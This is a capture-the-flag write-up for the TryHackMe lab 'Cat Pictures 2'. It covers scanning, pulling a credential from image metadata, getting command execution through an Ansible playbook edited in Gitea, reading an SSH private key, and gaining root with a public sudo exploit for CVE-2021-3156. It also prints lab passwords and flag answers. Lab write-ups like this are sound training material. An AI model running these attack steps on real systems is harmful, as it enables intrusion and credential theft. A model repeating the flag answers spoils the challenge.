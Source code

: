 # [Cat Pictures 2](https://tryhackme.com/room/catpictures2)

> Now with more Cat Pictures!

## Scanning

scan the target

```
nmap -A -T4 10.10.242.208
```

we have a huge of information here (22,80,222,3000,8080

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/feb2bd3a-4dda-47ab-a7de-475dd8cf7fb6)

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/5e27774a-d861-45cd-81f9-6ff7c2675c6d)

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/78409cf6-feb0-446c-8657-650238e77379)

## HTTP

explore the webserver on port 80, we have an ablums

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/bf345fb0-88cf-491d-ba75-e7b0be9f9012)

check the robots.txt

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/1ef16d46-e8f3-4de1-9b16-7f2cab61c9d2)

on login panel, we know that's Lyche 3.1.1

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/709b050e-7bdf-4081-987a-37424dda9e32)

click on ablums, we have some cat images

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8cf3b3b0-1bfa-4a1e-bfd4-148d99d53c36)

we have a nginx webserver on port 8080

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/b12eb582-5c88-4124-8b6d-257b2c01ace2)

on port 3000, i see a Gitea version 1.17.3

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/9a53d313-bf59-48a4-af9f-4ee13fa0f9c8)

click on explore/user, it already have an user `samarium`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c168284c-7abb-4ecd-a5b8-68680fac4f18)

## Enumeration

i found a descript on first picture `note to self: strip metadata`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8dc91eae-9d5e-482d-a891-fa35ce7ff5e4)

download and check its metadata

```
exiftool f5054e97620f168c7b5088c85ab1d6e4.jpg
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3af1cd8d-73ae-4521-8a9c-d9a107667350)

The Title header has a link to a text file on port 8080

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/9625573f-9e45-491e-83d5-c41c60a819df)

follow the link, i have a credential

```
gitea: port 3000
user: samarium
password: TUmhyZ37CLZrhP

ansible runner (olivetin): port 1337
```

login gitea server with that information

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8e6d0e17-dcd3-4665-8a29-c79a7a08e773)

check on ansible repo

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3d5cea37-989f-41fe-ae98-389e33bc406d)

| Flag | flag1.txt |
| --- | --- |
| Answer | 10d916eaea54bb5ebe36b59538146bb5 |

check the playbook.yml, i found something maybe interest

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/271b9c1f-7736-4401-8c83-c13d849209a1)

it runs the `whoami` command as the user `bismuth`

as we remember, there is an Ansible runner present on port 1337

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/a531890c-bd02-4531-af1b-884599446618)

i can click on `Run Ansible Playbook` to execute the playbook command and see its log

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/216a39e8-309c-4bba-8041-b261ff943c99)

## Exploitation

return the repo, i see that we can edit the `playbook.yml` on gitea

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/7e5629b7-9657-4826-9f65-6296ac05fc29)

```
ls -la
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d9e6b1cc-3516-48ed-a81e-83c1ab6dcdaa)

```
cat flag2.txt
```

| Flag | user.txt |
| --- | --- |
| Answer | 5e2cafbbf180351702651c09cd797920 |

to get into the system, instead of using reverse shell, i think i will leverage ssh in the scan before

```
cat .ssh/id_rsa
```

get the private key of `bismuth`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/fce8e59c-7cd5-4a5d-8665-95531bffa707)

removing `"`, `,` and the spaces with cyberchef or with can do yourself

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/362af291-8710-499d-ad8e-ddb065c1fc79)

```
vi id_rsa
chmod 600 id_rsa
ssh -i id_rsa bismuth@10.10.242.208
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c72653fa-e80a-4c9d-9c1e-bac43aa3a573)

## Privilege Escalation

check the sudo version

```
sudo --version
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f119c3b7-b093-4db0-aa40-abf2c9fd863c)

there is a cve-2021-3156 for it

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/6c2b22af-2c09-4efb-8ae7-8ffd6d54640c)

clone and transfer to the target via scp

```
git clone https://github.com/CptGibbon/CVE-2021-3156
scp -i id_rsa CVE-2021-3156/exploit.c bismuth@10.10.97.70:/home/bismuth/exploit.c
scp -i id_rsa CVE-2021-3156/shellcode.c bismuth@10.10.97.70:/home/bismuth/shellcode.c
scp -i id_rsa CVE-2021-3156/Makefile bismuth@10.10.97.70:/home/bismuth/Makefile
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/01088266-ed44-46d2-96ba-fc1d1babf14d)

on target machine

```
ls
make
./exploit
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/58062ba9-3c2e-4828-9459-e0f7d37d0422)

there you go

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/bdfa26ef-6919-4c86-868e-917723c9cd85)

| Flag | flag3.txt |
| --- | --- |
| Answer | 6d2a9f8f8174e86e27d565087a28a971 |
